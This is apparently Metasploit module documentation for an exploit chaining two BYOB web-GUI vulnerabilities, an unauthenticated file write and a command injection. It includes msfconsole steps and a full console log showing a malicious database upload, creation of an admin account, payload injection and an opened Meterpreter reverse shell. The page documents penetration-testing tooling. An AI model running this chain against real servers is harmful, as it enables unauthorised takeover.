 ## Vulnerable Application

The BYOB (Build Your Own Botnet) web GUI is vulnerable to two severe vulnerabilities:

- **CVE-2024-45256**: Unauthenticated arbitrary file write leading to
privilege escalation by adding a new admin user in the SQLite database.
- **CVE-2024-45257**: Authenticated command injection on the payload generation page.

As of version 2.1.7, these vulnerabilities remain **unpatched**.

### Discoverer:
- **Chebuya**
- Source:
  - [Blog Post](https://blog.chebuya.com/posts/unauthenticated-remote-command-execution-on-byob/)
  - [PoC and Exploit](https://github.com/chebuya/exploits/tree/main/BYOB-RCE)

### Install

#### Version 2.0 Setup

To install BYOB and test the vulnerabilities locally:

```bash
git clone https://github.com/malwaredllc/byob.git
cd byob/web-ui
./startup.sh
python3 run.py
```

> **Note**: Avoid using Docker for this lab as BYOB itself uses Docker for building payloads.

These vulnerabilities were tested only from the host machine.

## Verification Steps

To reproduce the Remote Code Execution (RCE) exploit:

1. Start `msfconsole`.
2. Do: `use exploit/unix/webapp/byob_unauth_rce`.
3. Do: `set RHOSTS <ip>`.
4. (Optional) Do: `set USERNAME <username>`.
5. (Optional) Do: `set PASSWORD <password>`.
6. Do: `set RPORT <port>`.
7. Do: `set TARGETURI <path>`.
8. Do: `set SRVPORT <port>`.
9. Do: `set FETCH_SRVHOST <ip>`.
10. Do: `run`.

The module will attempt to exploit the vulnerabilities and execute remote code.

## Options

No options

## Scenarios

### BYOB 2.0 - Unauthenticated Remote Code Execution

This example uses `cmd/linux/http/x64/meterpreter_reverse_tcp` to gain a reverse shell.

```
msf exploit(unix/http/byob_unauth_rce) > options 

Module options (exploit/unix/http/byob_unauth_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Password for new admin
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     80               yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   6000             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   USERNAME  admin            no        Username for new admin
   VHOST                      no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      roTvDomWxW       no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH       IuxQhs           no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix/Linux Command Shell



View the full module info with the info, or info -d command.

msf exploit(unix/http/byob_unauth_rce) > run http://192.168.1.36:5000
[*] Exploit running as background job 21.
[*] Exploit completed, but no session was created.
msf exploit(unix/http/byob_unauth_rce) > 
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Using URL: http://192.168.1.36:6000/xK9IWU8ZxIpHV
[*] Payload is ready at /
[*] Generating malicious SQLite database.
[+] Database uploaded successfully to path: /proc/self/cwd/../../../../buildyourownbotnet/database.db
[+] Database uploaded successfully to path: /proc/self/cwd/../../../../instance/database.db
[+] Malicious database uploaded successfully.
[*] Registering a new admin user: admin:vZNqftVlFpmp
[+] Registered user !
[*] Logging in with the new admin user.
[+] Logged in successfully!
[*] Injecting payload via command injection.
[*] Received request at: / - Client Address: 192.168.1.36
[*] Sending response to 192.168.1.36 for /
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 9 opened (192.168.1.36:4444 -> 192.168.1.36:52382) at 2024-09-21 03:46:21 +0200

msf exploit(unix/http/byob_unauth_rce) > sessions 9
[*] Starting interaction with 9...

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-121-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

In this scenario, the payload is injected into the vulnerable
`/api/payload/generate` endpoint, leading to command execution
on the target server.
The reverse shell connects back to Metasploit, providing remote access.
